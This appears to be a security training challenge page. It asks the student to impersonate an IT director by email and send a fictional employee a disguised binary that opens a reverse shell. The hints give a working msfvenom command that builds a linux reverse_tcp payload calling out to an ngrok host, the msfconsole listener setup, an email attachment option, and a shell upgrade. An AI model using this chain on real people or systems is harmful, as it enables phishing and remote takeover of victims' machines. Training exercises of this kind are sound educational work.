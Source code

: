 # Social Engineering Challenge 3

----------------------

For this one, we're going to target Kylo Solo's trust in his boss, IT Director Scotty LaForge.

Your goal is to send an email TO Kylo Solo, FROM his boss Scotty, with an evil attachment. You should say the attachment is a patch Kylo needs to run to update his antivirus, or some such thing. 

Your attachment should be booby-trapped; it should grant you access to his machine using a reverse shell, or some such thing.

Happy hacking,
Frank Johnson
Chief Security Officer, Veritas Inc.

NOTE - Kylo is super eager to please his boss. He will immediately open and run all attachments you send him. In this case, he doesn't have java/flash/a pdf reader installed, so you should probably send him a binary. Note that he's running a linux x64 machine.

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
  
  msfvenom (which is installed on Kali linux) is an app that lets you craft a binary for any target OS/architecture. For Kylo, be sure to target x64 architecture and the linux platform. 
  
  msfvenom --platform linux -p linux/x64/shell/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19358 -b "\x00" -f elf > ~/Desktop/runme

</details>

<details> 
  <summary>Click for hint 2</summary>
  If you use a shell/reverse_tcp exploit, you will need a publicly visible LHOST and LPORT (ngrok is great for that) when crafting the binary with msfvenom. Use something like `./ngrok tcp 443` to get your publicly available LHOST and LPORT.
  
  Then when using msfconsole to listen for the exploit's response, your LHOST and LPORT values there will be your localhost ones that ngrok points to - so LHOST for msfconsole should be 127.0.0.1 and LPORT 443. To get started in msfconsole, run `use exploit/multi/handler` and set your payload to the same one you ran in msfvenom - that should set it up to listen properly.
</details>

<details> 
  <summary>Click for hint 3</summary>
  To add an attachment in sendEmail, all you have to do is this: `-a "/root/Desktop/runme"` where runme is the executable file you want attached.
</details>

<details> 
  <summary>Click for hint 4</summary>
  If you obtained a shell to the remote server by using a reverse/tcp payload, it's not very pretty - make it more functional and pretty by running this in it:
  
  ```
  python -c "import pty; pty.spawn('/bin/bash');"
  ```
</details>




